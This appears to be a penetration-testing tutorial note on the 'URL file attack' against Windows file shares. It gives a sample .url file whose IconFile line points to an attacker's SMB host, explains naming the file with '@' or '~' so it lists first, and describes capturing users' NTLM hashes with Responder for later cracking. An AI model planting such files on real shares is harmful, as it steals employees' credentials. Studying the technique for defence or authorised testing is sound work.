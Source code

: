 ## URL file
- A file with `.url` extension is a special file containing internet shortcuts that are used by web browsers.
- This file contains the information for a website’s URL address and may also contain the reference to the favicon file.
- When a user clicks on the URL file, the user’s browser launches the web page that the URL directs to.

## URL File Attack
- In organizations, most of the time, they have a common file share through which the employees can share the resources.
- URL File Attack captures the users’ hashes whoever accesses the File Share. This is done through a special file with `.url` extension.

### Working
The most important point in this attack is that the file must load in the list. Sometimes, there could be hundreds or thousands of files in a share. So, all files are not loaded at once. Instead, they load as the user scroll downs. We need a way so that our file always appears. For this, we can make it appear on top of the file listing.

We choose the filename in such a way that it appears on the top of the file share. For this, we can put a `@` (at symbol) or a `~` (squiggly symbol) at the start of the filename.

**Before describing the attack vector, it is important to know the contents of a URL file which are as below**
```python
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah 
IconFile=\\192.168.1.19\%USERNAME%.icon 
IconIndex=1
```

### Explanation
- **[InternetShortcut]** is a header line that specifies the file type and indicates that the following lines are instructions for an internet shortcut
- **URL=anyurl** specifies the URL of the website or web page that the shortcut should launch. The actual URL should be provided in place of the “anyurl” placeholder
- **WorkingDirectory=anydir** specifies the default working directory for the shortcut. In most cases, this will be the directory in which the shortcut file is located. You can replace the “anydir” placeholder with the full path of the directory, if necessary
- **IconFile=\\192.168.1.19\%USERNAME%.icon** specifies the location of the icon file to use for the shortcut. The icon file can be stored on a remote computer, which is specified by the IP address “192.168.1.19”. The “%USERNAME%” placeholder is replaced with the current user’s username. The “.icon” extension specifies the type of file that contains the icon data
- **IconIndex=1** specifies which icon in the specified icon file should be used for the shortcut. In this case, the number “1” references to the first icon in the file for use. If the icon file contains multiple icons, choose the number accordingly to select a different icon

**So now as we know all parts of the file, we can now look into the attack vector. The attack vector is the following line**
```python
IconFile=\\192.168.1.19\%USERNAME%.icon 
```

- This is because, if the line is present in the file, the machine will request the icon file from x.x.x.x IP address
- The attacker can put their own IP address in place of x.x.x.x and run responder at their machine. So, whenever any user opens the file share, the request from user will contain the authentication hash.
- Attacker on the other hand will capture the hashes using responder and later crack them.

## Practical implementation 
1. Creation of the url file.
![[url_file_attack1.png]]

2. Setting up the url file in the shares.
![[url_file_attack2.png]]

3. Getting hashes when user clicks on this file.
![[url_file_attack3.png]]
